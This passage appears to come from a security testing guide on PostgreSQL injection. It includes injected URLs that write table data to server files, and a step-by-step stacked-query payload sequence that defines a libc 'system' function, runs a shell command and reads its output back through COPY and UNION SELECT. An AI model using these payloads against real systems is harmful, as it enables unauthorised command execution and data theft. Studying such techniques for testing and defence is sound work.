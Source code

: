 `  `
`/store.php?id=1; COPY file_store(data) TO '/var/lib/postgresql/copy_output'--`

#### Shell Injection

PostgreSQL provides a mechanism to add custom functions by using both
Dynamic Library and scripting languages such as python, perl, and tcl.

##### Dynamic Library

Until PostgreSQL 8.1, it was possible to add a custom function linked
with *libc*:

  - CREATE FUNCTION system(cstring) RETURNS int AS '/lib/libc.so.6',
    'system' LANGUAGE 'C' STRICT

Since *system* returns an *int* how we can fetch results from *system*
stdout?

Here's a little trick:

  - create a *stdout* table
      -
        *CREATE TABLE stdout(id serial, system_out text)*
  - executing a shell command redirecting its *stdout*
      -
        *SELECT system('uname -a \> /tmp/test')*
  - use a *COPY* statements to push output of previous command in
    *stdout* table
      -
        *COPY stdout(system_out) FROM '/tmp/test*'
  - retrieve output from *stdout*
      -
        *SELECT system_out FROM stdout*

*' Example:*'

` `
`/store.php?id=1; CREATE TABLE stdout(id serial, system_out text) -- `
`  `
`/store.php?id=1; CREATE FUNCTION system(cstring) RETURNS int AS '/lib/libc.so.6','system' LANGUAGE 'C'`
`STRICT --`
`  `
`/store.php?id=1; SELECT system('uname -a > /tmp/test') --`
`  `
`/store.php?id=1; COPY stdout(system_out) FROM '/tmp/test' --`
`  `
`/store.php?id=1 UNION ALL SELECT NULL,(SELECT system_out FROM stdout ORDER BY id DESC),NULL LIMIT 1 OFFSET 1--`
`  `

##### plpython

PL/Python allows users to code PostgreSQL functions in python. It's
untrusted so there is no way to restrict what user can do. It's not
installed by default and can be enabled on a given database by
*CREATELANG*
